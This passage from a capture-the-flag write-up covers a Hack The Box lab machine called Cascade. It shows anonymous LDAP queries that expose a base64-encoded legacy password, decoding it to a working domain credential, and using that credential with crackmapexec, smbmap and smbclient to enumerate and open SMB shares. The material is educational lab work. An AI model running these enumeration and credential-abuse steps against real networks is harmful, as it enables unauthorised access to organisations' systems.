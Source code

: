 ```bash

# numResponses: 2
# numEntries: 1
```

Enumertaed users and found set of base64 encoded credentials for the user `r.thompson@cascade.local`:

```bash
ldapsearch -x -H ldap://10.10.10.182 -D '' -w '' -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people

.......
cascadeLegacyPwd: clk0bjVldmE=
.......
```

Set of credentials: `r.thompson:rY4n5eva`

The user cannot connect over winrm:

```bash
crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva
    
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva
```

## SMB Enumeration (Part 2)

Used credentials and `smbmap` to enumerate shares.

```bash
smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva

[+] IP: 10.10.10.182:445        Name: 10.10.10.182              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

Used smbclient to signin to the `Data` share:

```bash
smbclient //10.10.10.182/data --user r.thompson --password rY4n5eva

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 27 03:27:34 2020
  ..                                  D        0  Mon Jan 27 03:27:34 2020
  Contractors                         D        0  Mon Jan 13 01:45:11 2020
  Finance                             D        0  Mon Jan 13 01:45:06 2020
  IT                                  D        0  Tue Jan 28 18:04:51 2020
  Production                          D        0  Mon Jan 13 01:45:18 2020
  Temps                               D        0  Mon Jan 13 01:45:15 2020
```
